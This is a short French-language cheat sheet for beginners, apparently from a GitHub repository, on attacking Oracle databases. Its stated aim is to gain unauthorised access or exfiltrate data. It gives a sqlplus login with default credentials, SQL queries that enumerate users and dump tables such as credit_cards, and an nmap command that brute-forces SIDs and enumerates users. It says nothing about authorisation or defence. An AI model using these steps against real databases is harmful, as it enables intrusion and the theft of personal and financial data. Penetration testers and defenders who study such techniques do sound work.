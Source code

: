 # Exploitation Oracle (Base de Données)

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour obtenir un accès non autorisé à une base Oracle ou exfiltrer des données.

---

## Explications vulgarisées
- Oracle est une base de données d’entreprise, parfois mal sécurisée (comptes par défaut, mots de passe faibles, accès réseau ouvert).
- L’exploitation consiste à accéder à des données sensibles, à exécuter des commandes SQL, ou à rebondir sur d’autres systèmes.

---

## Commandes et étapes essentielles

### 1. Connexion avec des credentials par défaut
```bash
sqlplus system/password@target.com:1521/XE
```
- **sqlplus** : Client Oracle en ligne de commande.
- **Astuce débutant** : Tester les comptes par défaut (“system”, “sys”, “scott”) et des mots de passe faibles (“oracle”, “password”).

### 2. Enumération et extraction de données
```sql
SELECT username FROM all_users;
SELECT * FROM dba_users;
SELECT * FROM credit_cards;
```
- **Astuce** : Chercher des tables “users”, “credit_cards”, “passwords”, etc.

### 3. Exploitation automatisée avec Nmap
```bash
nmap -p 1521 --script oracle-enum-users,oracle-sid-brute,oracle-tns-version target.com
```
- **oracle-enum-users** : Enumère les utilisateurs Oracle.
- **oracle-sid-brute** : Brute-force les SIDs Oracle.
- **oracle-tns-version** : Récupère la version du service TNS.

---

## Conseils pour débutants
- Toujours tester les accès par défaut avant d’essayer des credentials complexes.
- Chercher des tables “test”, “backup”, ou des utilisateurs “admin”, “system”.
- Utiliser Nmap pour automatiser la détection et l’énumération.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - Oracle Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Oracle%20Methodology)
- [Nmap Oracle NSE Scripts](https://nmap.org/nsedoc/categories/oracle.html) 